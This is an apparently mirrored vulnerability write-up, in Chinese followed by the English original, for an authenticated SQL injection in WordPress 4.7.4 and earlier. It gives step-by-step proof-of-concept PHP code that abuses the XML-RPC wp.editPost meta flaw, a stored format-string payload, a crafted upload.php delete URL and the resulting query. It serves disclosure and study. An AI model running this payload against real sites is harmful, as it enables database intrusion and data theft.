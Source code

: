 # Wordpress <= 4.7.4 XML-RPC API POST META 未校验漏洞

> 原文：[https://www.zhihuifly.com/t/topic/3257](https://www.zhihuifly.com/t/topic/3257)

# Wordpress <= 4.7.4 XML-RPC API POST META 未校验漏洞

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

### 中文版

以作者身份登录到您的wordpress

上传图片

记住图像/媒体的ID

创建帖子并将图像设置为特色图像（这将创建_thumbnail_id帖子元）

记住帖子ID

我们可以通过修改_thumbnail_id的值来编辑的值（6是帖子ID，5是图片/帖子ID）

### poc

```
$usr = 'author';
$pwd = 'author';
$xmlrpc = 'http://local.target/xmlrpc.php';
$client = new IXR_Client($xmlrpc);
$content = array("ID" => 6, 'meta_input' => array("_thumbnail_id"=>"xxx"));
$res = $client->query('wp.editPost',0, $usr, $pwd, 6/*post_id*/, $content); 
```

通过这段代码，我们在数据库中添加以下负载

```
5 %1$%s hello 
```

执行SQL负载

使用作者帐户登录管理面板，转到媒体，例如

```
http://0-sec.org/wp-admin/upload.php 
```

通过_wpnonce参数可以直接进行sql注入

```
http://0-sec.org/wp-admin/upload.php?_wpnonce=daab7cfabf&action=delete&media%5B%5D=5%20%251%24%25s%20hello 
```

其中5 %1$%s hello的encode编码是5%20%251%24%25s%20hello这个请求将导致数据库执行以下查询（会有错误）

```
SELECT post_id FROM wp_postmeta WHERE meta_key = '_thumbnail_id' AND meta_value = '5 _thumbnail_id' hello' 
```

这证明了Wordpress中的sql漏洞，正如5%1$%s之后的前一个post值中提到的，hello就是我们的payload

### 英文原文

In order to understand the writing here, you need to read the previous explanation https://medium.com/websec/wordpress-sqli-bbb2afcc8e94\. If you got it, then we can jump to the part and solve the question e.g. how to update / insert our sql payload into _thumbnail_id post meta.

#### PoC start

*   Login to your wordpress as author
*   Upload image
*   Remember ID of the image / media
*   Create post and set image as featured image (this creates _thumbnail_id post meta)
*   Remember the post ID

#### Wordpress ≤ 4.7.4 XML-RPC

n case of appropriate wordpress version then we can use the third vulnerability in this versions of wordpress https://wordpress.org/news/2017/05/wordpress-4-7-5/ e.g.

```
Lack of capability checks for post meta data in the XML-RPC API. 
```

This means that we can edit the value of _thumbnail_id with the following code ( 6 is the post ID and 5 is image/post ID )

```
$usr = 'author';
$pwd = 'author';
$xmlrpc = 'http://local.target/xmlrpc.php';
$client = new IXR_Client($xmlrpc);
$content = array("ID" => 6, 'meta_input' => array("_thumbnail_id"=>"5 %1$%s hello"));
$res = $client->query('wp.editPost',0, $usr, $pwd, 6/*post_id*/, $content); 
```

and with this code we add the following payload in the DB 5 %1$%s hello

#### Wordpress importer plugin — any version of wordpress

This is another approach for changing the _thumbnail_id value in the database. If wordpress instance have enabled this plugin on it, then simple export, change meta value and import will do the job.

#### Execute the SQL payload

Login to the administration panel with your author account, go to media e.g. http://local.target/wp-admin/upload.php , grab the _wpnonce value and we are ready to prove our SQLi vulnerability. Issue the following request towards your local instance:

```
local.target/wp-admin/upload.php?_wpnonce=daab7cfabf&action=delete&media%5B%5D=5%20%251%24%25s%20hello 
```

where 5%20%251%24%25s%20hello is url encoded 5 %1$%s hello. This request will result with execution of the following query against the DB (will rise error of course):

```
SELECT post_id FROM wp_postmeta WHERE meta_key = '_thumbnail_id' AND meta_value = '5 _thumbnail_id' hello' 
```

This proves the SQLi vulnerability in the wordpress and as mention in previous post value after 5 %1$%s e.g. hello is our payload

#### Is this vulnerability dangerous?

SQL injection itself is quite dangerous vulnerability, but sometimes have its own limitations. Here at our case depending of the database server configuration or mysql client used on PHP side could be fatal, but in our case best case scenario would be blind sql injection. Sure, we all know the trivial attack vector, but here we have 2 facts that go against wordpress:

*   meta value database column type e.g. size constraint
*   media parameter could be POST parameter e.g. will have huge size

This two facts guide us to the conclusion that even with blind sqli one query would be enough to calculate some crucial DB cell value.